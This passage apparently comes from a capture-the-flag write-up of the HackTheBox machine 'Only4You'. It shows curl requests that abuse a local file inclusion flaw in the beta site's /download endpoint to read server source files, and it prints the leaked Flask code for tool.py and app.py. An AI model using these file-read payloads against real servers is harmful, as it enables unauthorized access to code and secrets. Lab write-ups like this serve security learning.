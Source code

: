 Proving we can grab files! We also see we have users such as `john` and `dev`.

### More LFI

We already have the source code for `beta.only4you.htb`, we can guess the path for the sites. We try a few but a common naming scheme is going to be `/var/www/$site`. Let's check that by getting the `tool.py` file.

```console
toasty@parrot$ curl -s http://beta.only4you.htb/download -d "image=/var/www/beta.only4you.htb/tool.py"
from flask import send_file, current_app
import os
from PIL import Image
from pathlib import Path

def convertjp(image):
    imgpath = os.path.join(current_app.config['CONVERT_FOLDER'], image)
    img = Image.open(imgpath)
... SNIP
```

### Source Code only4you

Now that we have confirmed the `beta` site files location, let's try to grab source files for `only4you.htb`. We can only grab files we know the name for, but `app.py` is a safe starting point:\


Command:\
`curl -s http://beta.only4you.htb/download -d "image=/var/www/only4you.htb/app.py"`

**App.py**

```python

from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid

app = Flask(__name__)
app.secret_key = uuid.uuid4().hex

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        email = request.form['email']
        subject = request.form['subject']
        message = request.form['message']
        ip = request.remote_addr

        status = sendmessage(email, subject, message, ip)
        if status == 0:
            flash('Something went wrong!', 'danger')
        elif status == 1:
            flash('You are not authorized!', 'danger')
        else:
            flash('Your message was successfuly sent! We will reply as soon as possible.', 'success')
        return redirect('/#contact')
    else:
        return render_template('index.html')

...SNIP

```
